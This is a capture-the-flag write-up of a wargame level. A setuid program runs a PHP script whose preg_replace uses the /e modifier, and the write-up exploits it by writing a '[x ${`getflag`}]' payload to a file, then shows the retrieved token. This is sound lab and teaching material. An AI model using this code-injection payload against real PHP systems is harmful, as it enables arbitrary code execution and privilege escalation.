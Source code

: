 # LEVEL 06
In our home directory, we have an executable with suid, and a php script allowing us to know what the executable does:
```
>$ ls -la
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
```
>$ cat level06.php
        #!/usr/bin/php
        <?php
        function y($m) {
                $m = preg_replace("/\./", " x ", $m);
                $m = preg_replace("/@/", " y", $m);
                return $m;
                }
        function x($y, $z) {
                $a = file_get_contents($y);
                $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
                $a = preg_replace("/\[/", "(", $a);
                $a = preg_replace("/\]/", ")", $a); return $a;
        }
        $r = x($argv[1], $argv[2]); print $r;
        ?>
```
In the second function called by the script, we see the use of a regex with `/e` modifier which is depecrated in recent php regex flags, 
so if it is set, `preg_replace()` does normal **substitution of backreferences** in the replacement string, **evaluates it as PHP code**, and uses the result for replacing the search string, 
it can easily introduce remote **code execution vulnerabilities**.

Exploit this by passing our own code implementation , which will be evaluated as `PHP code` and executed as `user flag06`.

our argument should pass the regex test `"/(\[x (.*)\])/e"`, and respect the form `[x <our PHP code>]`:
```
>$ echo '[x ${`getflag`}]' > /tmp/getflag
>$ cat /tmp/getflag
[x ${`getflag`}]
```
When we run the executable, passing our file as argument:
```        
>$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
in /home/user/level06/level06.php(4) : regexp code on line 1
```

#### Vulnerability:
* Deprecated `/e` regex modifier in script owned by privileged user -> Privilege escalation via PHP code injection.
* Read more  : https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier

#### Documentations:
1. https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
1. https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc
1. https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier